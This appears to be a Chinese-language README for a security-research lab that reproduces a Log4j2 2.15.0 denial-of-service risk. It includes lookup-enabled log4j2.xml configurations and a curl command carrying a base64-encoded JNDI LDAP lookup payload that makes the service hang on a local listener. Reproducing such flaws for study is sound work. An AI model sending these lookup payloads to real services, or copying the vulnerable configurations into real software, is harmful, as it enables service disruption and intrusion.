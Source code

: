 # Log4j2 Dos Verification

Fork from https://github.com/EmYiQing/Log4j2DoS

漏洞环境仅用于安全研究，禁止非法用途，造成的后果使用者负责

## 背景

Log4j2.15.0 有DOS风险。

2.15.0以下版本，如果使用ThreadContext来记录日志，如在日志pattern中有 ${ctx:xxx}，并且调用 ThreadContext.put{“xxx”,“用户可控数据”}， 添加JVM参数和环境变量无效

2.15.0默认配置不存在dos风险，但如果使用了lookup功能，或者使用ThreadContext打印日志，也存在DOS安全风险

## 复现 

### 环境信息
- JDK 8 275
- log4j 2.15.0
- Springboot 2.6.1

### 第一种情况
在`log4j2.xml`中配置
```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="warn" name="MyApp" packages="">
    <appenders>
        <console name="STDOUT" target="SYSTEM_OUT">
            <PatternLayout>
                <pattern>%d %p %c{1.} [%t] $${ctx:message} %m%n</pattern>
            </PatternLayout>
        </console>
    </appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="STDOUT"/>
        </Root>
    </Loggers>
</Configuration>
```

注: message需要base64encode




### 第二种情况


漏洞复现URL：`http://localhost:8080/poc1?message=payload`
在`log4j2.xml`中配置
```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="warn" name="MyApp" packages="">
    <appenders>
        <console name="STDOUT" target="SYSTEM_OUT">
            <PatternLayout pattern="%msg{lookups}%n"/>
        </console>
    </appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="STDOUT"/>
        </Root>
    </Loggers>
</Configuration>
```

漏洞复现URL：`http://localhost:8080/poc2?message=payload`

注: message需要base64encode

### 测试用例

1. 本地起一个http服务，python -m http.server 7777

2. 本地使用log4j2.xml配置，起动springboot，发送payload到接口触发写入日志，发现服务尝试连接 http://127.0.0.1:7777

```
curl http://127.0.0.1:8080/test\?message\=JHtqbmRpOmxkYXA6Ly8xMjcuMC4wLjE6Nzc3N30=
```

3. 查看console和http记录，可以发现请求keep alive, 被阻塞了，故存在dos风险

![](./assets/http_response.png)
